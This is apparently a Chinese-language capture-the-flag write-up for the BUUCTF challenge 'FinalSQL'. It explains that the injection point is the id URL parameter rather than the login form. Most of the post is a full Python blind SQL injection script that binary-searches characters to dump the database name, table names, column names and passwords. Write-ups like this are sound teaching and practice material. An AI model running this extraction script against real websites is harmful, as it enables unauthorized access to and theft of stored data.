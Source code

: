 ```yaml
---

title: 日常练习24

date: 2021-04-28 23:44:01

tags: 练习

categories: test73

---
```

这是一道sql盲注题，见的很多了。  

# [极客大挑战 2019]FinalSQL   

打开题目，看见登录框   

[![](https://img.imgdb.cn/item/608ab6b9d1a9ae528fde4c0a.png)](https://img.imgdb.cn/item/608ab6b9d1a9ae528fde4c0a.png)  

但是不要被这个登录框给骗了，这道题的sql注入点不在这里，因为测试后可以发现这个登录框过滤了很多字符，很难注入。但是题目也提醒我们选择那几个数字来获得flag，我们点击一个数字。  

[![](https://img.imgdb.cn/item/608ab736d1a9ae528fe3ee6b.png)](https://img.imgdb.cn/item/608ab736d1a9ae528fe3ee6b.png)  

可以看到url栏里有?id=1字样，那么这里会不会就是真正的注入点呢？  

[![](https://img.imgdb.cn/item/608ab7ded1a9ae528febeaaa.png)](https://img.imgdb.cn/item/608ab7ded1a9ae528febeaaa.png)  

发现有报错，结合题目提到sql盲注，直接上盲注脚本。  

	import time

	import requests
	
	url = "http://53a5f27f-df29-4f58-ae30-b6d3d404f221.node3.buuoj.cn/search.php?id="
	
	result = ''
	i = 0
	
	while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) >> 1
        # payload = '(ascii(substr(database(),%d,1))>%d)' % (i, mid)
        # payload = f'(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),{i},1))>{mid})'
        # payload = f'(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name="F1naI1y")),{i},1))>{mid})'
        payload = f'(ascii(substr((select(group_concat(password))from(F1naI1y)),{i},1))>{mid})'
        r = requests.get(url + payload)
        # print(r.text)
        time.sleep(0.1)
        if "Click" in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)  

大佬的脚本，现在自己写脚本的能力还是差。  

可以看到，这就是一个正常的sql盲注，按照顺序来一个一个爆出数据库名，表名，列名，flag。  

[![](https://img.imgdb.cn/item/608abaaed1a9ae528f102a43.png)](https://img.imgdb.cn/item/608abaaed1a9ae528f102a43.png)  

得到flag。  

# 小结  

sql盲注题原理不难理解，重点是在写脚本，现在我的写脚本能力明显不足，需要加强，争取早日用上自己的脚本！